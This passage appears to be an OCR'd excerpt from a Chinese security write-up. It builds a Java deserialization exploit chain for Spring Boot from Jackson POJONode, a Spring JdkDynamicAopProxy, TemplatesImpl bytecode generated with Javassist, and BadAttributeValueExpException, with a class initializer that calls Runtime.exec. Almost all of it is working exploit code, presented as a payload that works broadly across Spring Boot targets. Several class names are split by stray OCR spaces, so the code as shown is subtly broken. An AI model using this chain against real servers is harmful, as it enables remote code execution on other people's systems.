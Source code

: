 因此常常会出现有时打通有时打不通的情况，所以后来又对这条链进行了一些改进，这里可以使用 Spring Boot 里一个代理工具类进行封装，使 Jackson 只获取到我们需要的 getter，就实现了稳定利用。

```java
AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templates);
Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy"). getConstructor(AdvisedSupport.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),  new Class[]{Templates.class}, handler);
```

最终可以构造出如下 payload，即可在 spring boot 环境下实现通杀的效果，虽然相比之前经典的 tomcat bypass 鸡肋的许多，但总算有了新的进展。

```java
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(writeReplace);
ctClass.toClass();

ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(Class.forName("com.sun.org.apache. xalan.internal. xsltc.runtime.AbstractTranslet")));
CtClass cc = pool.makeClass("Evil");
cc.makeClassInitializer().insertBefore("Runtime.getRuntime().exec(\"calc\");");
String randomClassName = "Evil" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get("com.sun.org.apache.xalan.internal. xsltc.runtime.AbstractTranslet"));
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};

Object templates = Class.forName("com.sun.org.apache.xalan.internal.xsltc. trax.TemplatesImpl").getConstructor(new Class[]{}).newInstance();
Field fieldByteCodes = templates.getClass().getDeclaredField("_bytecodes");
fieldByteCodes.setAccessible(true);
fieldByteCodes.set(templates, targetByteCodes);

Field fieldName = templates.getClass().getDeclaredField("_name");
fieldName.setAccessible(true);
fieldName.set(templates, "crumbledwall");

fieldName = templates.getClass().getDeclaredField("_tfactory");
fieldName.setAccessible(true);
fieldName.set(templates, Class.forName("com.sun.org.apache.xalan. internal.xsltc.trax. TransformerFactoryImpl").newInstance());

AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(templates);
Constructor constructor = Class.forName("org.springframework.aop. framework.JdkDynamicAopProxy"). getConstructor(AdvisedSupport.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),  new Class[] {Templates.class}, handler);

POJONode pojoNode = new POJONode(proxy);

BadAttributeValueExpException badAttributeValueExpException  = new BadAttributeValueExpException (null);
fieldName = badAttributeValueExpException.getClass().getDeclaredField("val");
fieldName.setAccessible(true);
fieldName.set(badAttributeValueExpException, pojoNode);

```